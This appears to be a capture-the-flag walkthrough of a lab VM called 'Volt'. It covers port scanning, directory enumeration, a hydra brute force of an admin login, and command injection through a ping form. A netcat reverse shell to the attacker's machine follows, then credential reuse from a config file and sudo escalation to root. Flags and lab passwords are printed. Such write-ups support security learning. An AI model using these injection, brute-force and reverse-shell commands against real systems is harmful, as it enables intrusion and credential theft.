


## Reconnaissance

We will start identifying the ports open
```bash
sudo nmap -p- -sS --min-rate 5000 -Pn -n 192.168.1.100 -oG content/allPorts 

Starting Nmap 7.993 ( https://nmap.org ) at 2026-10-30 12:52 +0100
Nmap scan report for 192.168.1.100
Host is up (0.00060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:27:2C:B2 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.77 seconds
```

Let's see if we are able to find anything interesting with the scripts of `nmap`.
```bash
➜ nmap -p22,80 -sVC -Pn -n 192.168.1.100 -oN content/targeted

Starting Nmap 7.993 ( https://nmap.org ) at 2026-10-30 12:56 +0100
Nmap scan report for 192.168.1.100
Host is up (0.00021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: Volt - Electronics Store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.30 seconds
```

Accesing the webpage we are able to see a cart.


With Gobuster we were able to find the path `/admin` which seems that contains a login pannel.
```bash
➜ gobuster dir -u http://192.168.1.100/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.100/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
admin                (Status: 200) [Size: 3121]
...
```


After trying to send a request with user `admin` and password `admin` we are able to see that the request to login is a `POST` request so we will use hydra to try to forcebrute the login of `admin` user with the `rockyou.txt` wordlist.

```bash
➜ hydra -l admin -P ~/Downloads/rockyou.txt 192.168.1.100 http-post-form '/admin:username=^USER^&password=^PASS^:1=:Login Failed'

Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-31 00:20:36
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.100:80/admin:username=^USER^&password=^PASS^:1=:Login Failed
[STATUS] 4702.00 tries/min, 4702 tries in 00:01h, 14339696 to do in 50:50h, 16 active
[STATUS] 4723.33 tries/min, 14170 tries in 00:03h, 14330228 to do in 50:34h, 16 active
[80][http-post-form] host: 192.168.1.100   login: admin   password: chocolate3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-31 00:23:57
```
## Explotation

Inside the admin pannel we can see that it has a feature where you specify the host on a text box and it sends a ping to that host.


with this we can deduce that what it does is execcute the command `ping -c 1 $INPUT` so if we specify a host followed by `;` we should be able to do a Remote Code Execution(RCE).
```bash
➜ curl -X POST http://192.168.1.100/admin/diagnostics -d 'host=127.0.0.1; echo -n "\n=== New Command ===\n"; whoami' -s | htmlq --text 'div.termout'

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms

=== New Command ===
www-data
```

## Privilege escalation

### Reverse Shell

Now we can execute a reverse shell.

*Shell 1* 
```bash
➜ nc -lvnp 1234
Listening on 0.0.0.0 1234
```

*Shell 2*
```bash
➜ curl -X POST http://192.168.1.100/admin/diagnostics -d 'host=127.0.0.1; echo -n "\n=== New Command ===\n"; nc 192.168.1.105 1234 -e /bin/bash' -s | htmlq --text 'div.termout'
Command 'ping -c 1 127.0.0.1; echo -n "\n=== New Command ===\n"; nc 192.168.1.105 1234 -e /bin/bash' timed out after 15 seconds
```

*Shell 1*
```bash
➜ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 192.168.1.100 54718
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's sanitize the shell
```bash
➜ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 192.168.1.100 54718
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' 
www-data@volt:/opt/volt$ export TERM=xterm
export TERM=xterm
www-data@volt:/opt/volt$
```

Checking the `/etc/passwd` file we are able to identify 2 users that has a shell
```bash
cat /etc/passwd | grep -E 'sh$'
root:x:0:0:root:/root:/bin/bash
batusai:x:1000:1000:leo,,,:/home/batusai:/bin/bash
www-data@volt:/opt/volt$
```

### Batusai

Checking teh python files we are able to find a credentials for the user `batusai` which looks like for a database but we'll try them to an SSH login.
```bash
www-data@volt:/opt/volt$ ls -lah
ls -lah
total 44K
drwxr-xr-x 6 www-data www-data 4.0K Jul 30 06:15 .
drwxr-xr-x 3 root     root     4.0K Jul 30 05:50 ..
-rwxr-xr-x 1 www-data www-data  15K Jul 30 05:50 app.py
-rw-r----- 1 root     www-data  222 Jul 30 06:15 config.py
drwxr-xr-x 2 www-data www-data 4.0K Jul 30 06:03 __pycache__
drwxr-xr-x 2 www-data www-data 4.0K Jul 30 05:50 static
drwxr-xr-x 2 www-data www-data 4.0K Jul 30 05:50 templates
drwxr-xr-x 5 www-data www-data 4.0K Jul 30 05:50 venv
www-data@volt:/opt/volt$ cat config.py 
cat config.py
# Volt store - database configuration
# TODO: move secrets to environment variables before production rollout
DB_HOST = "127.0.0.1"
DB_PORT = 3306
DB_NAME = "volt_store"
DB_USER = "batusai"
DB_PASS = "V0lt_db_S3cr3t_2026"
```

```bash
➜ sshpass -p 'V0lt_db_S3cr3t_2026' ssh batusai@192.168.1.100
Linux volt 6.12.96+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.96-1 (2026-07-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug  1 05:47:01 2026 from 192.168.1.5
batusai@volt:~$
```

Now let's get the `user.txt` flag.
```bash
batusai@volt:~$ cat user.txt 
a0bcc708bba0451e9134c31f4b1dda2a
```

### Root

Inspecting what we can execute using `sudo` we see that we can execute every command that we want.
```bash
batusai@volt:~$ sudo -l
[sudo] password for batusai: 
Matching Defaults entries for batusai on volt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User batusai may run the following commands on volt:
    (ALL : ALL) ALL
```

So with that we only need to execute a shell and we will have `root` access.
```bash
batusai@volt:~$ sudo /bin/bash
root@volt:/home/batusai# whoami
root
```

Let's get the `root.txt` flag.
```bash
root@volt:/home/batusai# cat /root/root.txt 
c21c4e2d4784781ce3aabb9c3357e88f
```

